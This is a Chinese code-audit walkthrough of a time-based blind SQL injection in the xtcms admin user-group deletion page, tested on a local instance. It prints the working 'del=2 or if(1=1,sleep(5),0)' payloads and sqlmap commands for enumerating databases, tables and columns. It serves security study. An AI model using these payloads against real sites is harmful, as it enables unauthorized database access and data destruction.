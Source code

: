 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676849-bc095f12-32bd-42fa-9538-4c8be7092b37.png)

```plain
没有数据库报错函数，这时候只能采用延迟布尔注入
如果直接访问文件：
http://127.0.0.1:8099/admin/model/usergroup.php?del=2 and if(1=1,sleep(5),0)
结合SQL语句：delete from xtcms_user_group where ug_id = 2 and if(1=1,sleep(5),0)
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677203-be86fa65-e1c0-4b09-b2aa-66737ab6ab30.png)

```plain
可以看到页面执行没有延迟，修改一下注入语句delete from xtcms_user_group where ug_id = 2 or if(1=1,sleep(5),0)
放在数据库中执行
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677107-0b8e47c1-001a-4a04-ac49-f71b2af5b7c4.png)

```plain
发现SQL执行延迟了。构造一下payload：http://127.0.0.1:8099/admin/model/usergroup.php?del=2 or if(1=1,sleep(5),0)
但是页面没有延迟。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677164-d1bbc8b9-1028-44f2-a77c-72c87ae42854.png)

```plain
结合SQL监控插件，发现SQL语句根本没有执行。因为直接访问这个文件出了问题
结合包含文件查找，admin/cms_usergroup.php调用了admin/model/usergroup.php文件。
构造：127.0.0.1:8099/admin/cms_usergroup.php?del=2 or if(1=1,sleep(5),0)
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677287-172ca80d-feb5-4d96-8f5f-e1b84af20c58.png)

```plain
里面还有转义，可以用宽字节或者ASCII码来进行注入。
可以用sqlmap去跑。用到数据包进行注入。（因为有cookie）
python310 sqlmap.py -r 1.txt
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677441-fc187ffc-7b32-4449-9d68-8cade68d0e6f.png)

```plain
猜解数据：python310 sqlmap.py -r 1.txt --dbs
--dbs --tables --coulmns进行数据库的猜解。
查看sqlmap的payload可以加上-v 5
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677528-10b57f0d-53db-4516-b9ab-513d3a2f72a7.png)